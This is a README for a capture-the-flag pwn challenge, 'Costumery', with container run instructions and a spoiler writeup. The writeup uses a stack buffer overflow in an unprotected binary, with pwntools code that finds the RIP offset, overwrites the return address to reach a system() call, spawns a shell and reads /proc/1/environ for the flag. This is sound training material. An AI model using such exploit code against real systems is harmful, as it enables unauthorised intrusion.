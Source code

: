 # Costumery

A <ins>simple, basically free pwn flag</ins> for anyone who have ever done pwn challenges before. Only a single file is provided, namely [costumery](out/costumery).

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-costumery:latest .`
2. Run the image: `podman run --rm --name=ctf-costumery -it -e CHALLENGE_PORT=1337 -e FLAG=flag{g0es_h3r3} -p 1337:1337 ctf-costumery:latest`
3. Share the [costumery](out/costumery) file with the challengers

<details>
<summary>Writeup (Spoiler)</summary>

First of all, I must say that this is only one way to solve this challenge. Of course you can always go the harder way and solve this somehow differently (eg. with ROP gadgets).

If we connect to the port, we get a terminal based shop thing. Ghidra, or your favorite decompiler/disassembler should relatively quickly reveal that there are a handful of subs. Checksec tells us that there is literally no protection on this binary. No PIE, no canary, no NX, nothing.

```
[steve@todo out]$ checksec --file=./costumery
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFYFortified        Fortifiable     FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No   03               ./costumery
```

If we are dealing with an executable stack, chances are that we can do a stack based buffer overflow attack. Let's see if we have any function that is using system or exec* calls:

<p align="center">
    <img src="assets/ghidra_systemcall.png" alt="Ghidra reveals the unused system() caller method to us" width="400" />
    <br />
    <i>Ghidra reveals the unused system() caller method to us</i>
</p>

The goal is clear: jumping into it. My Ghidra named it `FUN_00401951`, so we have our address, `0x401951`. We should use this later.

But we are still lacking the attack surface. Most of the code seems fine, but there is one function that is a bit suspicious:

```c
void FUN_0040150a(void)

{
  undefined local_78 [112];
  
  printf("Enter your IBAN number: ");
  fflush((FILE *)0x0);
  read(0,local_78,0x100);
  return;
}
```

Sweet! We got a buffer, `local_78`, that is 112 bytes long. There is however a `read()` call that reads 256 bytes into it. This is a classic buffer overflow. We can overwrite the return address of this function with the address of `FUN_00401951` and we are done in theory.

Let's check if the binary is 32 or 64 bit:

```
[steve@todo out]$ file costumery
costumery: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, stripped
```

Great, exploit time. We will need a RIP offset. Cyclic will do the job. I will do this locally:

```py
exe = "./out/costumery"
def find_ip(payload):
    p = process(exe)
    p.recvuntil("===================================\n")
    p.sendline("1")
    p.sendline("1")
    p.sendline("yes")
    p.sendlineafter(":", payload)
    p.wait()
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4).decode())
    info("located EIP/RIP offset at {a}".format(a=ip_offset))
    return ip_offset

offset = find_ip(cyclic(150))
```

Basically we just send a cyclic string to the binary and check where it crashes from the core dump.

Next we can already craft our payload:

```py
io = start()
win_addr = 0x401951

io.recvuntil("===================================\n")
io.sendline("1")
io.sendline("1")
io.sendline("yes")
payload = flat(
    asm("nop", arch="amd64") * offset,
    # just to be sure, AAAAAAs also work
    win_addr,
)
info("payload: %s", enhex(payload))
io.sendlineafter(":", payload)

io.interactive()
```

And we get a shell. Where is the flag?

```
$ ls
costumery
flag.txt
ynetd
$ cat flag.txt
Yayy, we are in! But where is the flag? I remember I saved it somewhere, but where?$ pwd
/home/challenger
$ 
```

Not so helpful. But if we take a look at the first process and check its environment variables, we quickly find this:

```
$ cat /proc/1/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\x00HOSTNAME=5ff575db24bd\x00CHALLENGE_PORT=25565\x00FLAG=cq23{e45y_p34zy_l3m0n_squ33zy_455857558d7d1499aa7498949546a2b2}\x00HOME=/home/challenger\x00
```

And there we have it.
</summary>